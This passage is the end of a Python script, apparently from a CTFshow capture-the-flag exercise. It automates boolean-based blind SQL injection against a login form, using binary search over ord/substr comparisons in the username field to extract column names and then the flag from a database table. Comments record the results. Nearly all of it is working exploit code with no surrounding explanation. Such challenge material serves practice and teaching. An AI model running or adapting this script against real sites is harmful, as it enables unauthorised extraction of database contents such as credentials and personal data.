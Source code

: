 ```python
            return table_name
        table_name += chr(head)

# 查询 ctfshow_fl0g 表中的所有列名
def getColumn():
    payload = "0'or(ord(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_fl0g'),{},1))>{})='1"
    i = 0
    column_name = ""
    while True:
        i += 1
        head = 0
        tail = 127
        while head < tail:
            mid = (head + tail) // 2
            data = {
                "username": payload.format(i, mid),
                "password": 0,
            }
            response = requests.post(url=url, data=data)
            if "密码错误" in response.json()['msg']:
                head = mid + 1
            else:
                tail = mid
        if head == 0:
            return column_name
        column_name += chr(head)

# 查询字段中内容
def get_dump():
    payload = "0'or(ord(substr((select group_concat(f1ag) from ctfshow_fl0g),{},1))>{})='1"
    i = 0
    dump = ""
    while True:
        i += 1
        head = 0
        tail = 127
        while head < tail:
            mid = (head + tail) // 2
            data = {
                "username": payload.format(i, mid),
                "password": 0,
            }
            response = requests.post(url=url, data=data)
            if "密码错误" in response.json()['msg']:
                head = mid + 1
            else:
                tail = mid
        if head == 0:
            return dump
        dump += chr(head)

if "__main__" == __name__:
    database = getDatabase()
    print("[+]the database is: ",database)     # 得到 ctfshow_web
    table_name = getTable()
    print("[+]the table_names are: ",table_name)   # 得到  ctfshow_fl0g,ctfshow_user
    column_name = getColumn()
    print("[+]the column_name are: ", column_name)   # 得到 id,f1ag
    dump = get_dump()
    print("[+]the flag is :",dump)
```
